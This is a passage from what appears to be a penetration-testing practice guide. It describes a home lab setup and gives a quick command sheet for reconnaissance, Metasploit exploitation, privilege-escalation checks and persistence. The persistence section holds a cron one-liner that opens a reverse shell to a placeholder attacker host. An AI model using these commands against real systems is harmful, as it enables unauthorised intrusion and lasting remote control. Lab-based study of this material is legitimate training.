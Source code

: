 ### Additional Practice Resources

#### Advanced Lab Environments
```bash
# Local Lab Setup for Practice
# VirtualBox/VMware recommended setup:

┌─ Attacking Machine ─────────────────────────┐
│ • Kali Linux 2024.1 (4GB RAM minimum)     │
│ • All tools updated and database           │
│ • Multiple network interfaces configured   │
│ • Screenshot and documentation tools ready │
└────────────────────────────────────────────┘

┌─ Target Machines ───────────────────────────┐
│ • Metasploitable 2 (Linux vulnerabilities) │
│ • DVWA (Web application testing)           │
│ • VulnHub VMs (realistic scenarios)        │
│ • Windows Server 2016 (intentionally vuln) │
└────────────────────────────────────────────┘
```

#### Command Reference Quick Sheet
```bash
# Essential Commands for Quick Reference
# RECONNAISSANCE
nmap -sn 192.168.1.0/24                    # Host discovery
nmap -sC -sV -p- target_ip                 # Full service scan
dirb http://target/                        # Directory enumeration
enum4linux target_ip                       # SMB enumeration

# VULNERABILITY ASSESSMENT
nmap --script vuln target_ip               # Vulnerability scan
searchsploit service version               # Exploit research
nikto -h http://target                     # Web vulnerability scan

# EXPLOITATION
msfconsole                                 # Launch Metasploit
search ms17-010                           # Search for exploits
use exploit/path/to/module                # Select exploit
set RHOSTS target_ip                      # Configure target
exploit                                   # Execute

# POST-EXPLOITATION
python -c 'import pty; pty.spawn("/bin/bash")'  # Shell upgrade
sudo -l                                   # Check sudo permissions
find / -perm -4000 2>/dev/null           # Find SUID binaries
python3 -m http.server 8080              # File transfer server

# PERSISTENCE & LATERAL MOVEMENT
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/port 0>&1'" | crontab -
arp -a                                    # Discover internal hosts
```
